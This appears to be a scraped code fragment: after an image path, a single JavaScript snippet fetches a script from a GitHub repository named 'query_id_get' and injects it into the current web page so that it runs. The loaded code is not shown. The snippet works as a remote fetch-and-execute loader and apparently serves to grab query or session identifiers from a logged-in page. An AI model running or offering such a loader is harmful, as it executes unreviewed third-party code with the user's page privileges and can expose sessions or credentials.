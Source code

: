 fetch('https://raw.githubusercontent.com/wahyuda110/query_id_get/main/queryyyyyyy.js') .then(r => r.text()) .then(t => { const s = document.createElement('script'); s.textContent = t; document.head.appendChild(s).remove(); }) .catch(console.error);
